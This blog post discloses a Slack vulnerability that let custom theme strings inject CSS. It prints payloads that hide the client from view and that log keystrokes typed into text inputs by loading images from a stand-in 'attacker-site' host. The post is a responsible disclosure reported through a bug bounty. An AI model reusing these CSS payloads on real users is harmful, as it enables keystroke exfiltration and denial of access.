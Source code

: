 title: "Keylogging users via Slack themes"
keywords:
- slack
- vulnerability
- whitehat
- hackerone
tags:
- slack
- vulnerability
- whitehat
- hackerone
categories:
- security disclosures
thumbnailImage: https://images.fletchto99.com/blog/2019/november/slack-vulnerability/thumbnail.png
date: 2019/11/11
---

Back in August I found a [vulnerability in Slack](https://hackerone.com/reports/679969) which allowed me to keylog slack input via custom themes.

<!-- excerpt -->

{% image center clear https://images.fletchto99.com/blog/2019/november/slack-vulnerability/banner.png %}


Back in August I found a [vulnerability in Slack](https://hackerone.com/reports/679969) which allowed me to keylog slack input via custom themes. I came across this vulnerability when we were having some discussions in my work's slack regarding using CSS to change the font to `comic-sans`, as seen below:

{% codeblock lang:css %}
#FFFFFF;}*{FONT-FAMILY:"COMIC SANS MS"!IMPORTANT;}STYLE~DIV,DIV[TABINDEX="-1"]
{% endcodeblock %}

Neat right? However this is pretty harmless and likely wouldn't result in a bounty - maybe a `low` for no input sanitization. However, I was determined to find a way in which this could genuinely become dangerous. A co-worker, [d12](https://github.com/d12), pointed out that `#FFFFFF;} html {display:none;}` could be used to prevent the user's slack instance from rendering, which is certainly much worse than just changing fonts. It should be noted that once one slack instance was modified all other instances were also modified since the theme was persisted across clients (yes... I managed to lock myself out of multiple slack test instances).

However, my ultimate goal was data exfiltration... wouldn't it be great if we could see all the links to cat memes in the slack instance we're not a part of? This is the point in which I learned that CSS supports attribute selectors for [specific values](https://github.com/maxchehab/CSS-Keylogging/). More specifically that CSS allows you to determine the most recent value added to any type of input via the `[value$="<value>"]` selector. Furthermore, slack allows loading of external images. With this knowledge I present to you my very own custom slack theme:

{% codeblock lang:css %}
#FFFFFF;}INPUT[TYPE="TEXT"][VALUE$="A"] { BACKGROUND-IMAGE: URL("https://attacker-site/A"); },#350d36,#1264A3,#FFFFFF,#350D36,#FFFFFF,#2BAC76,#CD2553
{% endcodeblock %}

This theme is capable of determining when the user types the letter `A` into an `<input type="text">` on slack. When the user does this the CSS will load the background image `https://attacker-site/A` which can then be logged server side to indicate the user typed the letter A. This was as much of a PoC I needed to demo to slack that it was indeed possible to exfiltrate data provided the user actually applied the custom theme. Thankfully the 1-click custom theme option was not exploitable so it still required the user to copy/paste the theme which would certainly raise suspicions.

Here's the PoC video I sent slack of the request being logged locally. Note how I go into channels instead of typing a message, that's because the channel option used a text input while the message input was more complicated. I'm sure it would have been possible to write some CSS to select on the attributes there but this was enough to prove exfil was even possible.

{% video https://images.fletchto99.com/blog/2019/november/slack-vulnerability/poc.mov 100% PoC exploit video %}

Slack has kindly decided to disclose the vulnerability on [hackerone](https://hackerone.com/reports/679969).


## Reward

For finding this vulnerability slack awarded me $500. I'm using that money to match donations to my Movember campaign. If you'd like to learn more or donate click [here](https://mobro.co/fletchto99).

<!-- more -->
